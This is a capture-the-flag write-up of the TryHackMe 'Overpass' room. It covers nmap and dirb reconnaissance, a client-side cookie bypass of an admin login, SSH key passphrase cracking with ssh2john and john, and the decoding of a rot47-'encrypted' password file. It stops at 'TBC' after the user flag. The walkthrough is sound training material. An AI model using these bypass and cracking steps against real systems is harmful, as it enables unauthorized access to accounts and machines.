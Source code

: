 ## [Overpass](https://tryhackme.com/room/overpass#)

This room has very little instructions. In fact, it only tells you, what need to find in the end.
First of all, we will start the machine and run a good old nmap scan to see whats running.

```
┌──(root㉿kali)-[~]
└─# nmap -sV -sC -n 10.10.64.141
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-15 09:46 UTC
Nmap scan report for 10.10.64.141
Host is up (0.0075s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37968598d1009c1463d9b03475b1f957 (RSA)
|   256 5375fac065daddb1e8dd40b8f6823924 (ECDSA)
|_  256 1c4ada1f36546da6c61700272e67759c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
MAC Address: 02:39:94:5A:24:49 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.15 seconds
```
Alright, this tells us, that we can reach the machine over http and ssh. Since we don't have any clues to log in with ssh, let's look at the webpage first.
The site greets us with a short intro to their product and gives some info on the creators on an aboutus-page. There is also a download page with their product: a password manager. 
It's always a good idea to look for some common directories when attacking webpages. 
So let's do that:

```
┌──(root㉿kali)-[~]
└─# dirb http://$IP -l /usr/share/wordlists/dirb/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Mar 15 08:43:39 2023
URL_BASE: http://10.10.64.141/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Printing LOCATION header

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.64.141/ ----
==> DIRECTORY: http://10.10.64.141/aboutus/                                             
+ http://10.10.64.141/admin (CODE:301|SIZE:42)                                          
  (Location: '/admin/')
==> DIRECTORY: http://10.10.64.141/css/                                                 
==> DIRECTORY: http://10.10.64.141/downloads/                                           
==> DIRECTORY: http://10.10.64.141/img/                                                 
+ http://10.10.64.141/index.html (CODE:301|SIZE:0)                                      
  (Location: './')
                                                                                        
---- Entering directory: http://10.10.64.141/aboutus/ ----
+ http://10.10.64.141/aboutus/index.html (CODE:301|SIZE:0)                              
  (Location: './')
                                                                                        
---- Entering directory: http://10.10.64.141/css/ ----
+ http://10.10.64.141/css/index.html (CODE:301|SIZE:0)                                  
  (Location: './')
                                                                                        
---- Entering directory: http://10.10.64.141/downloads/ ----
+ http://10.10.64.141/downloads/index.html (CODE:301|SIZE:0)                            
  (Location: './')
+ http://10.10.64.141/downloads/src (CODE:301|SIZE:0)                                   
  (Location: 'src/')
                                                                                        
---- Entering directory: http://10.10.64.141/img/ ----
+ http://10.10.64.141/img/index.html (CODE:301|SIZE:0)                                  
  (Location: './')
                                                                                        
-----------------
END_TIME: Wed Mar 15 08:43:51 2023
DOWNLOADED: 23060 - FOUND: 7
```
Nothing too wild, but the admin page looks interesting. Remembering the aboutus page, I tried to bruteforce my way in, by using the names listed and the rockyou wordlist - but unsuccessful.
I gotta admit I was kinda stuck here. So I took a few looks around and after some time of being frustrated I wandered across the login.js script on the /admin page (kind of lying under my nose the whole time). 
The script contains this login funktion:
```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```
As we can see in the if clause, if the credentials are correct (or at least not labeled incorrect) a cookie "SessionToken" with value "statusOrCookie" is set. In that case we don't need to find credentials to login, we can just set the cookie manually, reload the page and voilà where in :).
This page shows a message from Paradox to James and reads as follows:
>Since you keep forgetting your password, James, I've set up SSH keys for you.
>
>If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
>Also, we really need to talk about this "Military Grade" encryption. - Paradox

Followed by an ssh key. With user James and the key we can try to gain ssh access.
First we create an `id_rsa` file in `~/.ssh/`. They key is also password protected, so let's run ssh2john over it to create a hash file, which we can then crack with john:
```
┌──(root㉿kali)-[~/.ssh]
└─# ssh2john id_rsa > rsa.hashes
┌──(root㉿kali)-[~/.ssh]
└─# sudo  john --wordlist=/root/Desktop/wordlists/rockyou.txt --format=SSH rsa.hashes 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
j#####          (id_rsa)     
1g 0:00:00:00 DONE (2023-03-15 11:03) 3.225g/s 43148p/s 43148c/s 43148C/s lisa..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now login via ssh and capture the first flag:
```
┌──(root㉿kali)-[~/.ssh]
└─# ssh james@10.10.64.141  
Enter passphrase for key '/root/.ssh/id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 15 11:09:43 UTC 2023

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.64.141
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{#######################}
```

with `ls -al` we can find a .overpass file which contains an interesting looking string. To decrypt it we first have to find out what encryption method overpass uses, by taking a look into the source code:

```
//Load the credentials from the encrypted file
func loadCredsFromFile(filepath string) ([]passListEntry, string) {
	buff, err := ioutil.ReadFile(filepath)
	if err != nil {
		fmt.Println(err.Error())
		return nil, "Failed to open or read file"
	}
	//Decrypt passwords
	buff = []byte(rot47(string(buff)))
	//Load decrypted passwords
	var passlist []passListEntry
	err = json.Unmarshal(buff, &passlist)
	if err != nil {
		fmt.Println(err.Error())
		return nil, "Failed to load creds"
	}
	return passlist, "Ok"
}

```

>buff = []byte(rot47(string(buff)))

CyberChef + Rot47 + our string = `[{"name":"System","pass":"saydrawnlyingpicture"}]`

TBC









